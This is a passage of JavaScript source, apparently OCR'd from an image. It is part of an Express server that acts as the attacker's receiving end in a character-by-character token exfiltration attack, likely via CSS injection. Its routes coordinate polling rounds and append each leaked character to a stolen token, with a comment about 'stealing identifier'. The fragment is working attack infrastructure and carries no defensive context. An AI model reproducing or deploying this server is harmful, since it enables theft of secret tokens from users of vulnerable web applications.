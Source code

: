 ``` js
  console.log('======reset=====')
  res.end('reset ok')
})

app.get('/polling', (req, res) => {
  function handle(req, res) {
    if (data.canSendBack) {
      data.canSendBack = false
      res.status(200)
      res.end(data.token)
      console.log('send back token:', data.token)

      if (data.token.length < 14) {
        setTimeout(() => {
          data.canStartLoop = true
        }, loopDelay)
      }
    } else {
      setTimeout(() => {
        handle(req, res)
      }, handlerDelay)
    }
  }

  handle(req, res)
})

app.get('/loop', (req, res) => {
  function handle(req, res) {
    if (data.canStartLoop) {
      data.canStartLoop = false
      res.status(500)
      res.end()
    } else {
      setTimeout(() => {
        handle(req, res)
      }, handlerDelay)
    }
  }

  handle(req, res)
})

app.get('/:char', (req, res) => {
  // already start stealing identifier
  if (req.params.char.length > 1) {
    res.end()
    return
  }
  console.log('char received', req.params.char)
  if (data.loopStarted) {
    data.token += req.params.char
    console.log('token:', data.token)
    data.canSendBack = true

    res.status(500)
    res.end()
    return 
  }

  // first round
  data.count++
  if (data.count === 36) {
```
